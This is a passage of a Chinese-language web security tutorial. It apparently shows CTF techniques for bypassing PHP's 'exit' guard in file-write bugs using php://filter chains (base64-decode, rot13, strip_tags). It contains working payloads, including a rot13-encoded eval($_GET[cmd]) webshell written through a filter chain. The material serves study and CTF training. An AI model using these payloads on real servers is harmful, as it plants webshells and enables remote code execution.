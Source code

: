 > 
**base64编码绕过：**



```
Payload：

?file=php://filter/convert.base64-decode/resource=H3rmesk1t.php
POST DATA
content=aPD9waHAgcGhwaW5mbygpOyA/Pg==

```

> 
**rot13编码绕过：**<br/> 利用rot13编码其实和base64编码绕过原理一样，只要成为php无法进行识别的代码，就不会执行<br/> 前提是PHP没有开启short_open_tag(短标签)，默认情况下是没有开启的


```
Payload：

&lt;?php
$s = '&lt;?php @eval($_GET[cmd]); ?&gt;';
echo str_rot13($s)
?&gt;
=&gt;
&lt;?cuc @riny($_TRG[pzq]); ?&gt;

?file=php://filter/write=string.rot13/resource=test1.php
POST DATA
content=&lt;?cuc @riny($_TRG[pzq]); ?&gt;

```

> 
**嵌套绕过：**<br/> strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签（php7.3之后移除）


> 
`string.strip_tags`可以去除剥去字符串中的 HTML、XML 以及 PHP 的标签，而`&lt;?php exit; ?&gt;`实际上便是一个XML标签，既然是XML标签，就可以利用strip_tags函数去除它，所以可以先将webshell用base64编码，调用完成strip_tags后再进行base64-decode，死亡exit在第一步被去除，而webshell在第二步被还原


```
Payload：

#php5
?file=php://filter/string.strip_tags|convert.base64-decode/resource=test2.php
POST DATA
content=?&gt;PD9waHAgcGhwaW5mbygpOyA/Pg==
#由于&lt;?php exit();不是完整的标签，所以需要加上?&gt;进行补全

```

> 
但是这种方法有局限性，因为string.strip_tags在php7.3以上的环境下会发生段错误，从而导致无法写入，在php5或者php7.2的环境下则不受此影响
